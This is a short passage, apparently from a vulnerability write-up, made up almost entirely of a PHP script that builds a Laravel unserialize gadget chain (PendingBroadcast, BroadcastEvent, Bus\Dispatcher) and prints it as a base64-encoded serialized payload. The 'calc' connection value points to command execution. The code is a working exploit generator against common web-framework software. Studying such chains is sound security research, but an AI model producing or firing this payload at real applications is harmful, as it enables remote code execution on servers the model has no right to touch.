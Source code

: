 ```php

        }
    }
}

namespace Illuminate\Broadcasting{

    use Illuminate\Contracts\Queue\ShouldQueue;

    class BroadcastEvent implements ShouldQueue {
        function __construct() {}
    }

    class PendingBroadcast{
        protected $events;
        protected $event;
        function __construct() {
            $this->event = new BroadcastEvent();
            $this->event->connection = "calc";
            $this->events = new \Illuminate\Bus\Dispatcher();
        }
    }
}

namespace {
    $pop = new \Illuminate\Broadcasting\PendingBroadcast();
    echo base64_encode(serialize($pop));
}
```

<div align=center><img src="./images/7.png"></div>
